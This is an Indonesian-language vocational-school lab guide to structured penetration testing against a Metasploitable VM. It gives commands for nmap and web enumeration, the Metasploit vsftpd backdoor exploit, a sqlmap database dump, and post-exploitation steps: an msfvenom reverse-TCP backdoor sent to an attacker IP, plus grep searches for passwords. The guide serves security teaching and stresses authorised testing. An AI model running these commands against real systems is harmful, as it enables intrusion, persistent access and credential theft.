

# 🛠️ Praktikum: Penetration Testing Terstruktur

## 🎯 Tujuan Pembelajaran
Setelah menyelesaikan praktikum ini, peserta didik mampu:
1. Melakukan pengujian keamanan jaringan secara sistematis
2. Mengidentifikasi dan mengeksploitasi kerentanan umum
3. Mendokumentasikan temuan keamanan
4. Memberikan rekomendasi perbaikan
5. Menerapkan etika dalam pengujian keamanan

## 📋 Persiapan

### 1. Persyaratan Sistem
- **Sistem Operasi**: Kali Linux 2023.x (Virtual Machine/Physical)
- **Spesifikasi Minimum**:
  - CPU: 2+ core
  - RAM: 4GB (8GB direkomendasikan)
  - Storage: 50GB free space
  - Koneksi internet

### 2. Tools yang Akan Digunakan


### 3. Lingkungan Target
- **Mesin Virtual**: Metasploitable 2/3
- **Alamat IP**: [Sesuaikan dengan lingkungan lab]
- **Rentang Pengujian**: Hanya pada sistem yang diizinkan

## 📝 Langkah Kerja

### 1. Pengenalan Lingkungan

#### 1.1 Persiapan Tools
```bash
# Update sistem dan tools
sudo apt update && sudo apt upgrade -y

# Install tools tambahan
sudo apt install -y gobuster seclists exploitdb

# Clone repositori tambahan
mkdir -p ~/tools && cd ~/tools
git clone https://github.com/danielmiessler/SecLists.git
```

#### 1.2 Konfigurasi Jaringan
```bash
# Cek alamat IP
ip a

# Scan jaringan lokal
nmap -sn 192.168.1.0/24

# Catat alamat IP target
TARGET_IP="192.168.1.100"  # Ganti dengan IP target
```

### 2. Pemindaian Awal (Reconnaissance)

#### 2.1 Pemindaian Port dan Layanan
```bash
# Pemindaian cepat port terbuka
nmap -T4 -p- --min-rate=1000 $TARGET_IP -oN nmap_quick.txt

# Deteksi versi dan OS
nmap -sV -sC -O -p $(cat nmap_quick.txt | grep open | cut -d'/' -f1 | tr '\n' ',') $TARGET_IP -oN nmap_detailed.txt

# Simpan hasil dalam format XML untuk diproses lebih lanjut
nmap -sV -sC -O -oX scan_results.xml $TARGET_IP
```

#### 2.2 Enumerasi Web
```bash
# Identifikasi web server
whatweb -v $TARGET_IP

# Directory brute force
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirb/common.txt -o gobuster_scan.txt

# Nikto scan
nikto -h $TARGET_IP -o nikto_scan.txt
```

### 3. Analisis Kerentanan

#### 3.1 Pemindaian dengan OpenVAS
```bash
# Pastikan OpenVAS terinstall
sudo gvm-setup

# Jalankan pemindaian
gvm-cli --gmp-username admin --gmp-password [PASSWORD] --xml "<create_task><name>Vulnerability Scan</name><target><hosts>$TARGET_IP</hosts></target></create_task>"
```

#### 3.2 Analisis Manual
```bash
# Cek kerentanan umum
nmap --script vuln $TARGET_IP -oN vuln_scan.txt

# Periksa konfigurasi yang salah
nmap --script http-security-headers $TARGET_IP -p 80,443,8080
```

### 4. Eksploitasi

#### 4.1 Eksploitasi dengan Metasploit
```bash
# Jalankan Metasploit Console
msfconsole

# Cari eksploitasi yang sesuai
search type:exploit platform:linux

# Gunakan modul yang sesuai
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS $TARGET_IP
exploit
```

#### 4.2 Eksploitasi Web
```bash
# SQL Injection dengan SQLmap
sqlmap -u "http://$TARGET_IP/vulnerabilities/sqli/?id=1" --batch --dump

# XSS Testing
python3 xsstrike.py -u "http://$TARGET_IP/search.php?q="
```

### 5. Post-Exploitation

#### 5.1 Mempertahankan Akses
```bash
# Buat backdoor
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f elf > shell.elf

# Unggah ke target
upload /path/to/shell.elf /tmp/shell.elf
chmod +x /tmp/shell.elf

# Jalankan backdoor
./shell.elf
```

#### 5.2 Pencarian Data Sensitif
```bash
# Cari file konfigurasi
find / -name "*.conf" -type f 2>/dev/null

# Cari kredensial
grep -r "password" /var/www/ 2>/dev/null
```

### 6. Dokumentasi

#### 6.1 Template Laporan
```markdown
# LAPORAN PENGUJIAN KEAMANAN

## 1. Informasi Umum
- Tanggal Pengujian: [Tanggal]
- Tim Penguji: [Nama Anggota]
- Lingkup Pengujian: [Deskripsi]

## 2. Ringkasan Eksekutif
[Ringkasan temuan dan rekomendasi utama]

## 3. Temuan
### 3.1 [ID] Nama Kerentanan
- **Tingkat Keparahan**: [Kritis/Tinggi/Sedang/Rendah]
- **Lokasi**: [URL/IP/Port]
- **Deskripsi**: [Penjelasan]
- **Dampak**: [Konsekuensi]
- **Bukti**: [Screenshot/Log]
- **Rekomendasi**: [Solusi]

## 4. Lampiran
- Hasil scan lengkap
- Log aktivitas
- Screenshot penting
```

## 📌 Tugas Praktikum

### Tugas 1: Pemindaian Jaringan
1. Lakukan pemindaian jaringan terhadap target yang ditentukan
2. Identifikasi semua layanan yang berjalan
3. Buat peta jaringan target

### Tugas 2: Analisis Kerentanan
1. Gunakan minimal 3 tools berbeda untuk mengidentifikasi kerentanan
2. Klasifikasikan temuan berdasarkan tingkat keparahan
3. Dokumentasikan bukti temuan

### Tugas 3: Eksploitasi Terkendali
1. Pilih 1 kerentanan kritis untuk dieksploitasi
2. Dapatkan akses ke sistem target
3. Dokumentasikan proses eksploitasi

### Tugas 4: Laporan Keamanan
1. Buat laporan profesional
2. Sertakan bukti temuan
3. Berikan rekomendasi perbaikan

## ⚠️ Etika dan Legalitas
- Hanya lakukan pengujian pada sistem yang diizinkan
- Dapatkan persetujuan tertulis sebelum pengujian
- Patuhi hukum yang berlaku
- Jaga kerahasiaan temuan

## 📚 Referensi
1. PTES Technical Guidelines
2. OWASP Testing Guide
3. NIST SP 800-115
4. CEH Practical Guide

---
<div align="center">
  <p>Panduan Praktikum - Penetration Testing Terstruktur</p>
  <p>© 2025 SMKN 1 Punggelan - Program Keahlian Teknik Komputer dan Jaringan</p>
</div>
